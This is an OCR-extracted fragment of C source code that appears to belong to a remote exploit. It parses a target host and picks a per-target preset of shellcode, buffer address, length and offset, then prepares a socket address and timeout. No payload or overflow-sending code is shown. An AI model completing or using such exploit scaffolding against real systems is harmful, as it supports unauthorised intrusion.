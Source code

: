  

    if(!(target = argv[optind]))

    {

        fprintf(stderr, "No target host specified\n");

        exit(EXIT_FAILURE);

    }

 

    if(type >= 0)

    {

        if(type >= sizeof types / sizeof types[0] - 1)

        {

            fprintf(stderr, "Invalid type\n");

            exit(EXIT_FAILURE);

        }

 

        sc = types[type].code;

        bufpos = types[type].bufpos;

        buflen = types[type].buflen;

        offset = types[type].offset;

        wipe = types[type].wipe;

    }

 

    if(!bufpos)

    {

        fprintf(stderr, "No buffer address specified\n");

        exit(EXIT_FAILURE);

    }

 

    bzero(&addr, sizeof addr);

    addr.sin_family = AF_INET;

    addr.sin_port = htons(port);

    addr.sin_addr = getip(target);

 

    tv.tv_sec = timeout;

    tv.tv_usec = 0;
